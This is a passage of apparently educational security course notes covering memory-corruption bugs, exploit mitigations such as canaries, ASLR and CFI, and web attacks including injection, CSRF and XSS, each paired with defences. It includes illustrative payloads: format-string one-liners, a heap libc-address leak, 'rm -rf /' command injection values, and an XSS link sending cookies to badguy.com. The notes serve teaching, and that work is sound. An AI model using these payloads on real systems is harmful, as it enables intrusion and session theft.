void func(char *buf1, char *buf2, unsigned len1, unsigned len2) {
    char temp[256];
    if (len1 + len2 >256) {return -1} 
    memcpy(temp, buf1, len1); 
    memcpy(temp+len1, buf2, len2);
    // ...
}
```

Now if `len1 = 0x80, len2 = 0xffffff80`, the sum is `len1 + len2 = 0`. The check `len1 + len2 > 256` will pass, and when executing `memcpy(temp+len1, buf2, len2)`, it will overflow the buffer, as it tries to read `0xffffff80` bytes from `buf2`.

#### Double Free

```c
int main(int argc, char* argv[]) {
    char* ptr = (char*)malloc (8);

    free(ptr);
    free(ptr);

    char* ptr2 = (char*)malloc (8);
    char* ptr3 = (char*)malloc (8);
}
```

If a pointer is freed twice, the heap manager will not know that the pointer is already freed, and will free it again. This can lead to heap corruption.

In the above case, when `ptr` is freed twice, two entries of the same pointer are added to the free list. When `ptr2` is allocated, it will be allocated at the same address as `ptr`, and the same for `ptr3`. Therefore `ptr2` and `ptr3` will point to the same memory location, and altering one affects the other.

#### Format String Attack

```c
printf("a has value %d, b has value %d, c is at address: %08x\n", a, b, &c);
```

If there is a mismatch: `printf("a has value %d, b has value %d, c is at address: %08x\n", a, b);`, the `printf` function will read the next value on the STACK, which can be anything.

Note compiler does not check the number of arguments in `printf`.


When `foo` is called, the stack frame is pushed onto the stack. The `printf` function reads the next value on the stack, which is `saved regs`.

---

By using a lot of `%s` in the format string, we can crash programs (DOS attack) or read arbitrary memory locations (information leak).

```c
int main(int argc, char *argv[]){
    char user_input[20];
    scanf("%s", user_input); 
    printf(user_input); 
    return 0;
}
```

`printf("%s")`:

- Fetch a number from the stack.
- Interpret it as a pointer, and print the memory at that location as a string.
- Until a `\0` is encountered.

To make the program crash, we simply let `printf` read a lot of `%s`.

```
./a.out "`python -c 'print "%s"*100'`"
```

To read arbitrary memory locations, we can use `%x` to read the stack.

```
./a.out "`python -c 'print "\x10\x01\x48\x08%s%s%s%s%x"'`"
```

To write arbitrary memory locations, we can use `%n`.

```c
int i;
printf("12345%n", &i);
```

`%n` writes the number of characters printed so far to the address pointed by the argument. If this code is executed, `12345` will be printed, and `i` will be set to 5.

Now back to the example:

```
./a.out "`python -c 'print "\x10\x01\x48\x08%s%s%s%s%n"'`"
```

This way address `0x08040110` will be overwritten with the number of characters printed so far.

## 5. Control Hijacking Defences

There are multiple ways to defend against control hijacking attacks.

- Fix bugs:
    - Using audit software to automatically detect vulnerabilities.
    - Rewrite software in type safe languages (e.g. Java, C#).
- Concede overflows:
    - Use safe functions (e.g. `strlcpy`).
- Runtime checks:
    - Halt process when buffer overflow is detected. (e.g. StackGuard, LibSafe)

Countermeasures:

- **Non-executable Stack**: Mark the stack as non-executable. Prevents code injection attacks.

Drawback:

- Some applications require stack execution (e.g. JIT compilers, interpreters).
- Does not defend against return-to-libc attacks.

### Return-to-Libc Attack (Arc Injection)

Example: Call `exec()` in `libc.so` to run `/bin/sh`.

Note: In memory, `libc.so` is loaded at a fixed address in the Shared Library segment, so we can predict the address of `exec()`.


It is called **Arc Injection** because we are changing the control flow to call functions in `libc.so`, which differs from the code injection in buffer overflow.

Countermeasures:

#### Address Space Layout Randomization (ASLR)

- Randomize the base location of the stack, heap.
- Randomly map shared libraries to locations in process memory, making it impossible to jump directly to `exec()`.
- Booting twice loads the libraries at different locations.
- Can also defend against code injection attacks (NOP slide does not work).

#### StackGuard

- Insert a canary value between the return address and the local variables.
- Check if the canary value is intact before returning from a function.
- If the canary value is overwritten, the program is terminated.

```
+-----------------+ high
| Arguments       |
| Ret Addr        |
| Stack Frame Ptr |
| Exception Hdlr  |
| *Canary         |
| Local Variables |
| Saved Registers |
+-----------------+ low
```

Two types of canary:

- **Ramdom Canary**: Randomly generated at program startup.
    - To corrupt the canary, the attacker must know the current canary value.
- **Terminator Canary**: A string terminator (e.g. `0x00`).
    - String functions will not copy beyond the terminator.
    - So injecting local variables with a overflowed string will not overwrite the canary.

Issues: Slight performance overhead, and can be bypassed by stack smashing attacks.

To protect heap, we can use **HeapGuard**.

An enhanced version of StackGuard is **ProPolice**, which furthe rearchitects the stack layout to prevent stack smashing attacks.

```
+-------------------+ high
| Arguments         |
| Ret Addr          |
| Stack Frame Ptr   |
| Exception Handler |
| *Canary           |
| Local Str Buffer  |
| Local NonStr Vars |
| Copy of Ptrs      |
| Saved Registers   |
+-------------------+ low
```

**/GS** is a MSVC compiler option that inserts a security cookie between the return address and the local variables.

However, it can still be bypassed by exception handler attacks.

When exception is thrown, dispatcher walks up exception list until handler is found. If the handler is not found, the program is terminated (default handler).


If buffer overflows and overwrites `SEH 1.next`, the control flow will be redirected to the attacker's code.

However this attack exists due to the mechanism that, exception is triggered before canary check.

#### SafeSEH and SEHOP

- **/SAFESEH**: Linker (a component of the compiler) option that encloses a table of known exception handlers in the binary.
    - Dispatcher will not jump to an exception handler that is not in the table.
- **/SEHOP**: A Windows feature that adds a dummy exception handler at the top of the SEH list (i.e. first visited by the dispatcher). 
    - When exception is thrown, dispatcher verifies if the dummy handler is still there. If not, the program is terminated.

Drawback: Requires recompilation of all libraries.

#### LibSafe

- **LibSafe**: A library that intercepts calls to unsafe functions (e.g. `strcpy`, `strcat`, `gets`) and checks the buffer size.
    - e.g. when `strcpy(dest, src)` is called, LibSafe checks if `frame - pointer - dest > strlen(src)`.
    - If not, the program is terminated.


Issue: strcpy() can still overwrite function pointer between main.buffer and main.sfp (i.e. in the function pointer section).

#### Summary

| | Code Injection | Arc Injection |
| --- | --- | --- |
| Stack | NX, ASLR <br> Canaries, ProPolice, /GS <br> LibSafe | ASLR <br> Canaries, ProPolice, /GS <br> LibSafe |
| Heap | NX, ASLR <br> PointGuard | ASLR <br> PointGuard |
| Exception | NX, ASLR <br> /SAFESEH, SEHOP | ASLR <br> /SAFESEH, SEHOP |

### Control Flow Integrity (CFI)

**Control Flow Integrity (CFI)**: A security mechanism that ensures that the control flow of a program follows a path that is intended by the programmer.

Two phases: **Analysis** and **Enforcement**.

#### Control Flow Graph (CFG)

**Control Flow Graph (CFG)**: A directed graph that represents all possible paths that a program can take during

```c
struct auth {
    char pass[AUTHMAX];
    void (*func)(struct auth *);
};
void success() { printf("Success!\n"); }
void failure() { printf("Failure!\n"); }
void check(struct auth *a) {
    if (strcmp(a->pass, "password") == 0) {
        a->func = &success;
    } else {
        a->func = &failure;
    }
}
int main() {
    struct auth a;
    a.func = &check;
    scanf("%s", a.pass);
    a.func(&a);
}
```


**Forward edge** = transfer of control flow from caller to callee.

- Direct transfer: target address is a constant and statically determined.
- Indirect transfer: target address is determined at runtime.

Example:

- `scanf()` is a direct forward edge.
- `a.func(&a)` is an indirect forward edge.

```
main
    0x0000000000400650 <+0>:  push   %rbp
    ...
    0x0000000000400694 <+68>: callq 0x400490 <__isoc99_scanf@plt> // scanf("%s", a.pass)
    ...
    0x00000000004006a0 <+80>: callq  *-0x18(%rbp) // a.func(&a)
    ...
    0x00000000004006a9 <+89>: pop    %rbp
    0x00000000004006aa <+90>: retq   

check
    0x0000000000400590 <+0>:  push   %rbp
    ...
    0x00000000004005b0 <+32>: pop    %rbp
    0x00000000004005b1 <+33>: retq  
```

CFI enforcement focuses on

- Indirect forward `jmp` and `call` instructions.
- Backward `ret` instructions.

How to protect backward edges:

```
main
    // check target address before callq
    0x00000000004006a0 <+80>: callq  *-0x18(%rbp)
    // record label 12
    ...
    0x00000000004006a9 <+89>: pop    %rbp
    0x00000000004006aa <+90>: retq   

check
    // label 11
    0x0000000000400590 <+0>:  push   %rbp
    ...
    0x00000000004005b0 <+32>: pop    %rbp
    // check return address before retq
    0x00000000004005b1 <+33>: retq  
```

A **shadow stack** is used to store the return addresses of functions.

- When `check` is called, the return address is pushed onto the shadow stack.
- When `check` returns, the return address is popped from the shadow stack and compared with the actual return address.

#### CFI Enforcement

Clang/LLVM has a CFI implementation that inserts runtime checks into the binary.

```bash
clang -o auth auth.c -flto -fsanitize=cfi -fvisibility=default
```

Assembly code:

```
400620 <+0>:  push   %rbp
400621 <+1>:  mov    %rsp,%rbp
400624 <+4>:  sub    $0x20,%rsp
400628 <+8>:  movabs $0x40075c,%rax
400632 <+18>: movabs $0x400690,%rcx
40063c <+28>: mov    %edi,-0x14(%rbp)
40063f <+31>: mov    %rsi,-0x20(%rbp)
400643 <+35>: mov    %rcx,-0x8(%rbp)
400647 <+39>: mov    %rax,%rdi
40064a <+42>: mov    $0x0,%al
40064c <+44>: callq  4004a0 <printf@plt>
400651 <+49>: movabs $0x400772,%rdi
40065b <+59>: lea    -0x10(%rbp),%rsi
40065f <+63>: mov    $0x0,%eax
400661 <+65>: callq  400490 <__isoc99_scanf@plt>
// Begin CFI check
400666 <+70>: movabs $0x400690,%rcx
400670 <+80>: mov    -0x8(%rbp),%rax
400674 <+84>: cmp    %rcx,%rax
400677 <+87>: je     40067b <main+91>
400679 <+89>: ud2
// End CFI check
40067b <+91>: mov    -0x10(%rbp),%rax
40067f <+95>: callq  *%rax
400681 <+97>: xor    %eax,%eax
400683 <+99>: add    $0x20,%rsp
400687 <+103>: pop    %rbp
400688 <+104>: retq
```

Compared to non-CFI compiled binary, the section between +70 and +87 is the CFI check.

- `movabs $0x400690,%rcx`: copy the adress of `check` to `rcx`.
- `mov -0x8(%rbp),%rax`: copy the function pointer (which is the address of `check`) to `rax`.
- `cmp %rcx,%rax`: compare the function pointer with the address of `check`.
- `je 40067b <main+91>`: If `rcx` and `rax` are equal, jump to the next instruction.
- `ud2`: If not, raise an undefined instruction exception to terminate the program.

#### Intel CET

Intel Control-flow Enforcement Technology (CET) is a hardware-based CFI implementation.

- **Shadow Stack**: A separate stack to store return addresses.
- **Indirect Branch Tracking (IBT)**: Mark indirect branch targets in a special table.
    - For indirect `jmp` and `call` instructions, an `endbr64` instruction is inserted at the start of the target function. Therefore, if after a jump, the target address is not `endbr64`, an exception is raised.

```
test
<+0>:  endbr64
<+4>:  push    %rbp
<+5>:  mov     %rsp,%rbp
<+8>:  mov     $0x0,%eax
<+13>: pop     %rbp
<+14>: ret
```

So if the `callq` instruction jumps to +4, an exception is raised.

#### ARM Pointer Authentication (PAC)

Pointer Authentication Codes (PAC) are used to protect the integrity of function pointers.

A 64-bit PAC consists of a 48-bit address and a 16-bit signature:

```
| PAC | Lo/Hi | PAC | Address |
| 8   | 1     | 7   | 48      |
63    56      55    48        0
```

Each PAC is dervied from

- a pointer to the function.
- a 64-bit context value, i.e. current stack pointer.
- a 128-bit secret key.

At the start of a function, `paciasp` is called to generate a PAC for the return address, stored in the link register.

At the end of a function before `ret`, `autiasp` is called to verify the PAC of the return address.

### Race Conditions

A **race condition** occurs when two concurrent threads of execution access a shared resource, producing different results depending on the order of execution.

Nececessary conditions:

- **Concurrency**: Two or more threads of execution simultaneously.
- **Shared object**: A shared resource that is accessed by multiple threads.
- **Change state**: At least one thread must alter the state of the race object.

If a privileged program has a race condition, attackers may be able to affect the output of the privileged program by manipulating the order of execution.

```c
if (!access("/tmp/X", W_OK)) {
    fd = open("/tmp/X", O_RDWR);
    write(fd, "data", 4);
    close(fd);
}
```

Attack goal: Write to a protected file `/etc/passwd`.

This is only possible if the attacker can create a symbolic link `/tmp/X` to `/etc/passwd` before the privileged program opens the file.

**Context switch**: The OS frequently switches between threads to give the illusion of parallel execution. This means part of the CPU time is spent on switching threads, and the order of execution is not deterministic

```c
if (!access("/tmp/X", W_OK)) {
    // Context switch
    // ln -s /etc/passwd /tmp/X
    // Context switch
    fd = open("/tmp/X", O_RDWR);
    write(fd, "data", 4);
    close(fd);
}
```

Countermeasures:

- **Atomic operations**: Operations that are indivisible cannot be interrupted.
- **Repeating check and use**: Make it difficult for the attacker to win the race.
- **Sticky symlink protection**: Prevent symlink attacks by checking the file type before opening it.
- **Principles of Least Privilege**:
    - A program should not use more privileges than what is needed by the task.

### libc Attack

With ASLR, the heap starting address is randomized at each run.

However it is still possible to leak libc base address by exploiting the heap.

- **Bins** are lists that store free chunks of memory for quick allocation.
- TCache bin (per-thread cache), Fast bin, Unsorted bin, Small bin, Large bin.

We will attack the unsorted bin because

- The unsorted bins have a double linked list structure.
- The head of the bin has a constant offset from the libc base address.

Attack procedure:

(1) Setup the layout of unsorted bin.

- `malloc` and `free` 7 chunks of memory, 300 bytes each to fill the TCache bin.
- `malloc` and `free` 1 chunk of memory, 300 bytes to fill the unsorted bin.
- The size can fit into TCache bin but not Fast bin.

(2) Read its content.

```
pwndbg> bins
    tcachebins
    0x310 [7]: 0x1a9e4c0 --> 0x1a9e1b0 --> 0x1a9dea0 --> ... --> 0x1a9d260 <-- 0x0
    fastbins
    0x20: 0x0
    0x30: 0x0
    0x40: 0x0
    0x50: 0x0
    0x60: 0x0
    0x70: 0x0
    0x80: 0x0
    unsortedbin
    all: 0x1a9e7c0 --> 0x7fcd34083ca0 (main_arena+96) <-- 0x1a9e7c0
    smallbins
    empty
    largebins
    empty
```

The content is `0x7fcd34083ca0`, which is the address of the main arena.

(3) Calculate the libc base address.

We use `pwndbg> vmmap` to find the address of the heap.

```
0x1de4000          0x1e05000      rw-p  21000  0      [heap]
0x7fcd33c98000     0x7fcd33e7f000 r-xp  1e7000 0      ./libc-2.27.so
```

The libc base address is `0x7fcd33c98000`.

The offset is `0x7fcd34083ca0 - 0x7fcd33c98000 = 0x3ebca0`.

Next time we perform the attack, we can calculate the libc base address by reading the unsorted bin.

e.g. the leaked content is `0x7fa660387ca0`, the libc base address is `0x7fa660387ca0 - 0x3ebca0 = 0x7fa65ff9c000`.

## 6. Web Security

### Web Basics

#### URL

URL: Uniform Resource Locator

URI: Uniform Resource Identifier

URL is a subset of URI.

```
https://example.com:443/path/to/resource?key1=value1&key2=value2#fragment

https: protocol
example.com: hostname
443: port
/path/to/resource: path
key1=value1&key2=value2: query
fragment: in-page anchor
```

Special characters in URL:

| Character | Usage in URL | Encoding |
| --- | --- | --- |
| Space | URL must be a single string, so space cannot be used | `%20` or `+` |
| Newline | Similar to space, cannot be used | `%0A` |
| `+` | Reserved for special characters | `%2B` |
| `/` | Path separator | `%2F` |
| `?` | Query separator | `%3F` |
| `&` | Key-value pair separator | `%26` |
| `=` | Key-value separator | `%3D` |
| `#` | Fragment separator | `%23` |
| `%` | Reserved for encoding | `%25` |

Non-ASCII characters are encoded in UTF-8 and then percent-encoded.

#### HTTP

HTTP: Hypertext Transfer Protocol

HTTPS: HTTP Secure = HTTP + SSL/TLS

HTTP Request looks like:

```
GET /index.html HTTP/1.1
Accept: image/gif, image/x-bitmap, image/jpeg, */*
Accept-Language: en
Connection: Keep-Alive
User-Agent: Mozilla/1.22 (compatible; MSIE 2.0; Windows 95)
Host: www.example.com
Referer: http://www.google.com?q=dingbats
<blank line>
<data>
```

where

- `GET`: HTTP method. 8 HTTP methods: GET, POST, PUT, DELETE, HEAD, OPTIONS, TRACE, CONNECT.
- `/index.html`: Path to the resource.
- `HTTP/1.1`: HTTP version.
- Headers: Key-value pairs.
- Data: None in the case of a GET request.

HTTP Response looks like:

```
HTTP/1.0 200 OK
Date: Sun, 21 Apr 1996 02:20:42 GMT
Server: Microsoft-Internet-Information-Server/5.0 
Connection: keep-alive
Content-Type: text/html
Last-Modified: Thu, 18 Apr 1996 17:39:05 GMT
Set-Cookie: 
Content-Length: 2543
<HTML> Some data </HTML>
```

where

- `HTTP/1.0 200 OK`: Status code and message.
- `200`: Status code. 100-199: Informational, 200-299: Success, 300-399: Redirection, 400-499: Client error, 500-599: Server error.
- `OK`: Status message.
- Headers: Key-value pairs.
- Cookies: Set by the server to store session information.

#### DOM

How browser renders a webpage:


Backend: URL -> browser engine -> get HTML/CSS/JS

Frontend: HTML/CSS/JS -> parser -> DOM tree builder -> painter -> pageBitmap

**Document Object Model (DOM)**: A tree structure that represents the webpage.

- DOM translates layered structure of a HTML document into a tree structure.
- Each element in the tree is a node.
- DOM provides `document` object that can be used by JS to manipulate the webpage.

However, DOM objects can be manipulated by JS, which can lead to security vulnerabilities.

### Goals and Threat Model

Goals of web security:

- Safely browse the web. 
    - Websites cannot access your data without permission. 
    - Site A cannot compromise Site B.
- Secure web applications.
    - Require same security properties as desktop applications. (i.e. A website should use as much permission as its desktop counterpart.)
    - HTTPS: provides **encryption** for browser-server communication; prevents **eavesdropping and MITM**; helps ensure **authenticity** of the server.
- Basic authentication provided by HTTP. (However this is not secure; use HTTPS instead.)
- Isolaton. (Prevent one tab, window, or frame from affecting another.)

Types of attacks:

- Web attacks:
    - The most common type of attack.
    - Attackers exploit vulnerabilities in web applications.
- Network attacks:
    - Passive: Wirless eavesdropping (=sniffing).
    - Active: Routing attacks, DNS poisoning (redirecting DNS queries to malicious servers).
- OS/Malware attacks:
    - Exploit browser isolation mechanisms and directly infect the OS.

Why is web attack so common?

- Web applications are widely used, publicly accessible, and easily targeted.
- Web applications are usually easy to develop (with many ready-made libraries), but is fundamentally complex (connecting server, database and client) and security is often overlooked.

Attack ramifications:

- **Web defacement**: Loss of reputation for the website owner.
- **Information disclosure**.
- **Data loss**.
- **Unauthorized access**: Abuse of user privileges.
- **Denial of Service (DoS)**: Host or service becomes unavailable to users.

### Examples and Mitigations

Three top web vulnerabilities: **CSRF**, **XSS**, **SQL Injection**.

#### Authentication and Session Management

Issue - Session hijacking:

- Session fixation (attacker sets session ID)
- Stealing session ID (e.g. through HTTP eavesdropping or XSS)

Solution:

- Generate session ID, use cookie, set session timeout
- Check referrer, user-agent, IP address
- Require HTTPS

#### Direct Object Reference (DOR)

Issue:

Directly referencing objects in URLs, so attacker can manipulate the URL to access unauthorized objects.

e.g.

```
http://shop.com/cart?sessionid=12345 // your session
http://shop.com/cart?sessionid=54321 // someone else's session

http://blog.com/?page=index.html
http://blog.com/?page=/etc/passwd
```

Solution:

- Avoid exposing IDs, keys, or filenames in URLs.
- **Validate input** and **verify authorization** for accessing objects.

#### Function Level Access Control

Issue:

A subset of DOR. Specific page requires authorization, but not for its subpages.

e.g.

```
http://shop.com/admin // requires authorization
http://shop.com/admin/settings // does not require authorization
```

Solution: add authorization checks for all pages.

#### Isolation, Sandboxing, and Same-Origin Policy

Directly running remote code can results in loss of data integrity and confidentiality.

**Isolation**:

- Separate web applications from each other.
- Separate browser components (e.g. renderer, network stack) from each other.
- Browser manages resources (e.g. cookies, cache) for each site, just like an OS manages resources for each process.

**Principle of Least Privilege**:

Give components only the permissions they need to perform their tasks.

**Frame**:

- `<iframe>`, or floating inline frame, can be used to embed another webpage.
- Usage:
    - Embedding cross-site content.
    - Browser provides **sandboxing** to prevent the embedded content from affecting the parent page.
    - Parent still works even if the embedded content is broken.

**Same-Origin Policy**:

- SOP in JS and DOM: A web page can only access data from the same origin, defined as **same protocol, same domain, same port**.
- SOP in cookies: Cookies are only sent to the same origin, defined as **same domain, same port**.

#### User Interface Security

**Clickjacking**: The attacker places a transparent iframe on top of a button, so when the user clicks the button, they are actually clicking the iframe.

Solution:

- **Framebusting**: JS code that detects if the page is in an iframe, and breaks out of the frame.
- **X-Frame-Options**: HTTP header that tells the browser not to render the page in a frame.

**Command Injection**: Attacker injects commands into a form field.

e.g. Vulnerable PHP code:

```php
<? echo system("cat " . $_GET['file']); ?>
```

```
http://example.com/?display.php?file=rm%20-rf%20/ // execute: cat rm -rf / -> does nothing
http://example.com/?display.php?file=notes.txt%3B%20rm%20-rf%20/ // execute: cat notes.txt; rm -rf / -> dangerous
http://example.com/?display.php?file=%20%20%20 // execute: cat -> list all files
```

**Cross-Site Scripting (XSS)**: Attacker injects malicious scripts into web pages.

Types of XSS:

- **Reflected XSS**: Attacker injects a script into a URL, and the script is reflected back to the user.
- **Stored XSS**: Attacker injects a script into a database, and the script is displayed to all users.
- **DOM-based XSS**: Attacker injects a script into the DOM, and the script is executed by the browser.

Example:

```html
http://example.com/search?q=<script>document.write('')</script>
```

Solution:

- **Input validation**: Validate and sanitize user input.
- **Output encoding**: Encode user input before displaying it.
- **Content Security Policy (CSP)**: HTTP header that tells the browser what content is allowed to be loaded.
- **X-XSS-Protection**: HTTP header that tells the browser to block pages with XSS attacks.

**Cross-Site Request Forgery (CSRF)**: Attacker tricks the user into performing actions on a website without their knowledge.

Example:

```html

```

Solution:

- **CSRF token**: A unique token is generated for each user session, and is required for each request.
- **SameSite cookie attribute**: Prevents cookies from being sent in cross-site requests.

#### Cookies

Cookie is a small piece of data stored in the browser, and sent with each request.

```
HTTP Header:
 Set-cookie: NAME=VALUE ;
 domain = (who can read) ;
 expires = (when expires) ;
 secure = (only over SSL) ;
```

Server sends a cookie to the client to store, meanwhile it stores the same cookie in its database.

If expires is not set, the cookie is a **session cookie**. Otherwise it is a **persistent cookie** and stored in the local storage.

```
POST
 Cookie:  NAME = VALUE
```

Next time, the client sends the cookie back to the server to authenticate.

"HTTP is stateless protocol; cookies add state to the web."


Secure cookies: Browser will only send cookie back to the server if the connection is over HTTPS.

- Prevents eavesdropping.
- Prevents cookie theft via XSS.
- Secure cookies are not accessible via JavaScript. i.e. `document.cookie` will not return secure cookies.

### Web Tracking and Privacy

Cookies are used to track users across websites.

- First-party cookies: Belongs to top-level domain of the website.
- Third-party cookies: Belongs to domains of embedded content. Once there is a third-party cookie, it can turn around and invite any other third-party to set a cookie.

**Anonymous Tracking**: third-party cookies contain a unique ID, but it will be impossible to link the ID to a specific user.

This is an example GET request header:

```
Host: example.com\r\n
Connection: keep-alive\r\n
Accept: image/webp,*/*\r\n
User-Agent: <user-agent>\r\n
Referer: http://thirdparty.com\r\n
Cookie: id=12345; session=abcde\r\n
```

Here **referer** is the URL of the previous page, and **cookie** contains both first-party and third-party cookies.

**Do Not Track (DNT)**: A HTTP header that tells the server not to track the user.

### Command Injection

Example:

```php
<? echo system("cat " . $_GET['file']); ?>
```

Command injection is typically a problem when data and code share the same channel.

Mitigation (1): **Input validation**

- Blacklist: block known attack patterns. However, blacklists are easily bypassed.
- Whitelist: allow only known good patterns.

Mitigation (2): **Input escaping**

`escapeshellarg()` escapes a string to be used as a shell argument.

```php
<? echo system("cat " . escapeshellarg($_GET['file'])); ?>
```

In this way, if the attacker injects `notes.txt; rm -rf /`, the command will be executed as `cat 'notes.txt; rm -rf /'`, which recognizes `notes.txt; rm -rf /` as a single argument, and does not execute the `rm -rf /` command.

Mitigation (3): **Use less powerful APIs**

`system()` command is too powerful. Use `file_get_contents()` instead.

```php
<? echo file_get_contents($_GET['file']); ?>
```

#### SQL Injection

```php
<? 
$result = pg_query( "SELECT * from users WHERE
 uid = '".$GET['user']."' 
AND
 pwd = '".$GET['pwd']."';");
 if (pg_query-num($result) > 0){
 echo "SUCCESS";
 use_control_panel_redirect();
 ?>
```

Mitigation (1): Input validation

Mitigation (2): Input escaping

`pg_escape_string()` escapes a string to be used in a SQL query.

| Get Input | Escaped Input |
| --- | --- |
| `Bob` | `Bob` |
| `Bob'; DROP TABLE users; --` | `Bob''; DROP TABLE users; --` |
| `Bob' OR '1'='1` | `Bob'' OR ''1''=''1` |

Mitigation (3): Use prepared statements

```php
SqlCommand cmd = new SqlCommand( 
"SELECT * FROM UserTable WHERE 
username = @User AND 
password = @Pwd", dbConnection); 
cmd.Parameters.Add("@User", Request["user"] ); 
cmd.Parameters.Add("@Pwd", Request["pwd"] ); 
cmd.ExecuteReader(); 
```

Prepared statements separate the query from the data, so the data is never interpreted as part of the query.

### CSRF Attack

Attacker tricks the user into performing actions on a website without their knowledge.

```html
<form action=http://www.gracebook.com/share.php
 method="post" id ="f">
 <input type="hidden" name="text" value="SPAM COMMENT"></input>
 <script>document.getElementById("f").submit();</script>
</form>
```

When a user visits the attacker's website, upon loading the page, the form submits and the POST request is sent to `http://www.gracebook.com/share.php`. This requires the user to be logged in to `gracebook.com`.

Similarly, a GET CSRF attack can be performed by embedding an image in the attacker's website.

```html

```

CSRF attack is the **abuse of cross-site data export**. Cookie authentication is not sufficient when side effects can happen.

CSRF Defense:

(1) **Origin headers validation**

- Introduction of a new header, similar to Referer.
- However only shows scheme, host, and port (no path data or query string).
- Indicate the site visited immediately prior to the request.

Example:

```
POST /share.php HTTP/1.1
Host: www.gracebook.com
Referer: http://www.gracebook.com/form.php
Origin: http://www.gracebook.com/
```

Why strict referrer checking is not a good idea:

`Referrer` header can be stripped due to various reasons, e.g. organization proxy, browser settings, privacy concerns. If strict referrer checking is enforced, the user will not be able to access the website.

(2) **Nonce**

A unique token generated for each request.

In the above example, gracebook can generate a unique token for each form submission, and the token is sent back to the server with the form submission. 

```html
<input type="hidden" value="23a3afo1b" />
```

The server creates a nonce upon form being loaded at `form.php`, includes it in a hidden field, and checks it upon form submission at `share.php`. This ensures only `form.php` can submit the form at `share.php`.

### XSS Attack

#### Reflected XSS

Victim website:

```php
<html>
<title>Search Results</title>
<body>
Results for <?php echo $_GET['name']; ?>
</body>
</html>
```

Attacker website:

```html
http://victim.com/search.php?term=<script> 
window.open("http://badguy.com?cookie=" + document.cookie) 
</script>
```

What happens upon clicking the link:

- Browser goes to `victim.com/search.php`
- Victim.com returns A HTML result for `<script>...</script>`
- Browser executes the script, sending the cookie from `victim.com` to `badguy.com`

A simplified version of the attack:

(1) Expected behavior:

When user searches for `apple`, it redirects to `http://victim.com/search.php?term=apple`. The page displays `<html>Results for apple</html>`.

(2) XSS Attack:

Attacker creates a phishing link `http://victim.com/search.php?term=<script>...</script>`, and sends it to the user.

(3) User clicks the link.

(4) The `term` parameter string is directly embeded in the victim website HTML: `<html>Results for <script>...</script></html>`. Scripts in HTML will be executed upon rendering, so the malicious script is executed.

```
1. [Attacker] sends malicious link to [User]
2. [User] clicks the link
3. [Victim] echoes the user input, executing the malicious script
4. [Browser] sends the cookie to [Attacker]
```

This is a **Reflected XSS Attack**, i.e. malicious code executed on the client-side is reflectd from server to launch attacks.

In other word, the attack script is reflected back to the user as part of a victim website's page.

Despite user only visits the honest victim website, the attacker can still execute malicious code on the user's browser. Somewhere in the victim website echoes user input, and the attacker makes use of this to inject malicious code. This includes manipulating DOM, requesting sensitive data, and controlling form fields.

#### Stored XSS

(1) Expected behavior:

User can comment on a blog post, and the comment is stored in the database. When users view the blog post, the comments are displayed.

(2) Stored XSS Attack:

The attacker submits a comment with a malicious script, and the script is stored in the database. When users view the blog post, the script is embedded in the page and executed.

```
1. [Attacker] submits a comment with malicious script to [Victim]
2. [User] views the link
3. [Victim] echoes the comment, executing the malicious script
4. [Browser] sends the cookie to [Attacker]
```

Stored XSS can also happen using images, videos, and other media.

Example: despite the file extension being `.jpg`, the file can actually be a HTML, script, or anything else.

```html
// GET http://attacker.com/evil.jpg
HTTP/1.1 200 OK
...
Content-Type: image/jpeg
...
<html>
    <script>...</script>
</html>
```

Browser will render the content as HTML, despite the Content-Type being `image/jpeg`.

So if `` is embedded in a webpage, the script will be executed.

#### DOM-based XSS

In DOM-based XSS, the attacker directly manipulates the DOM.

```php
 <HTML>
 <TITLE>Welcome!</TITLE>
 Hi 
<SCRIPT>
 var pos = document.URL.indexOf("name=") + 5; 
document.write(document.URL.substring(pos,document.URL.length));
 </SCRIPT>
 </HTML>
```

When attacker visits: `http://victim.com/welcome.html?name=<script>alert(document.cookie)</script>`

The `<script>` part will be inserted into the DOM, and the script will be executed.

Difference between Stored and DOM-based XSS:

- Stored XSS: if server returns the contents directly, i.e. the content in the client's browser is exactly what the server returned.
- DOM-based XSS: if server returns the file, the client parses the file and show the content.

The difference is **which side interprets and renders the content**.

#### XSS Defense

(1) **Input validation**

(2) **Input escaping or sanitization**

Example: in stored XSS, if attacker submits this comment:

```html
<script src="http://attacker.com/evil.js"></script>
```

The server should escape the `<script>` tag:

```html
&lt;script src="http://attacker.com/evil.js"&gt;&lt;/script&gt;
```

So when another user retrieves the comment, the comment will be displayed as-is (HTML rendering translates `&lt;` to `<`), and the script will not be executed.

(3) **Use less powerful APIs**

#### CORS

CSRF and XSS exploits different trust in the web.

- CSRF: Turst from a server to client web browser. (Browser assumes the webpage content is safe, and thus directly executes the script.)
- XSS: Trust from client web browser to server. (Server assumes the user's input is safe, and thus echoes the input.)

**Cross-Origin Resource Sharing (CORS)**: A mechanism that allows many resources (e.g. fonts, JavaScript, etc.) on a web page to be requested from another domain outside the domain from which the resource originated.

CORS is in HTTP headers:

Two types of requests:

- Simple requests: GET, POST.
- Preflighted requests: Other requests, e.g. PUT, DELETE, with an additional OPTIONS request to check if the server allows the request, before sending the actual request.

Example (1): gracebook.com sends a GET request to mybank.com.

```
// gracebook.com/user/123 GET mybank.com/account/123 (request)
GET /account/123 HTTP/1.1
Origin: http://gracebook.com // last page visited
Host: mybank.com // target server
...

// (response)
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: http://gracebook.com
Access-Control-Allow-Credentials: true // allow cookies
Access-Control-Expose-Headers: X-My-Custom-Header
...
```

Example (2): gracebook.com sends a PUT request to mybank.com.

```
// gracebook.com/user/123 PUT mybank.com/account/123/transfer (preflight request)
OPTIONS /account/123/transfer HTTP/1.1
Origin: http://gracebook.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: X-Custom-Header
Host: mybank.com
...

// (preflight response)
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: http://gracebook. 
Access-Control-Allow-Methods: GET, POST, PUT
Access-Control-Allow-Headers: X-Custom-Header
...
```

## 7. Network Security

### Internet Infrastructure


- **DNS**: Domain Name System, maps domain names to IP addresses. Hierarchically distributed.
- Local and interdomain routing: **TCP/IP** for routing and forwarding packets, **BGP** (Border Gateway Protocol) for routing announcements and path selection.
- 5 layers of the Internet stack: Application, Transport, Network, Data Link, Physical.
- Data formats: application (message), transport (TCP/UDP segments), network (IP packets), data link (frames), physical (bits).
- IP: Internet Protocol, used to route packets between hosts. Connectionless protocol; unreliable best-effort delivery.

```
0   Version
4   Header Length (IHL)
8   Type of Service (ToS)
16  Total Length
32  Identification
48  Flags
52  Fragment Offset
64  Time to Live (TTL)
72  Protocol
